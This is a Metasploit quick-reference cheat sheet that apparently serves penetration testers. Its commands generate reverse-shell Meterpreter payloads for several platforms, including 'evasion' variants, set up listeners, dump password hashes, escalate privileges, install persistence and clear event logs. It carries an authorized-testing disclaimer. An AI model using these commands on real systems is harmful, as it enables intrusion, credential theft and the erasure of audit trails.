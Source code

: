 

```markdown
# Metasploit Framework Quick Reference (2025)

> **For authorized penetration testing only**  
> Always obtain written permission before testing any system.

---

## 1. Payload Generation with `msfvenom`

### Windows Payloads
```bash
# Staged (x64)
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f exe > payload.exe

# Stageless (x86)
msfvenom -p windows/meterpreter_reverse_tcp LHOST=<IP> LPORT=4444 -f exe > payload_stageless.exe

# HTTPS Transport (evasion)
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<IP> LPORT=443 -f exe > payload_https.exe
```

### Linux Payloads
```bash
# x64
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f elf > payload.elf

# x86
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f elf > payload_x86.elf
```

### Web Payloads
```bash
# PHP
msfvenom -p php/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f raw > payload.php

# ASPX
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f aspx > payload.aspx
```

### Android Payloads
```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f raw > payload.apk
```

---

## 2. Listener Configuration with `msfconsole`

### Basic TCP Listener
```bash
msfconsole -q
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <IP>
set LPORT 4444
set ExitOnSession false
exploit -j
```

### HTTPS Listener (Better Evasion)
```bash
set PAYLOAD windows/x64/meterpreter/reverse_https
set LPORT 443
exploit -j
```

---

## 3. Meterpreter Session Management

### Session Interaction
```bash
sessions -l          # List sessions
sessions -i 1        # Interact with session 1
background           # Background current session
```

### Common Commands
```bash
sysinfo             # System information
getuid              # Current user context
ps                  # List running processes
migrate <PID>       # Migrate to another process
hashdump            # Dump SAM hashes (Admin required)
```

---

## 4. Post-Exploitation

### Privilege Escalation (Windows)
```bash
use post/windows/escalate/getsystem
run
```

### Persistence (Windows)
```bash
run persistence -U -i 60 -p 443 -r <IP>
```

---

## 5. Cleanup

### Remove Artifacts
```bash
rm payload.exe
clearev  # Clear logs
```

### Kill Handlers
```bash
jobs -K
```

---

## Legal & Ethical Reminder
- **Always** operate within authorized scope.
- Document all actions for reporting.
- Avoid production systems unless explicitly permitted.
```

### Key Features:
1. **Focused on `msfvenom` and `msfconsole`**.
2. **Simplified for quick reference**.
3. **Includes essential commands for payloads, listeners, and post-exploitation**.
4. **Legal compliance emphasized**.
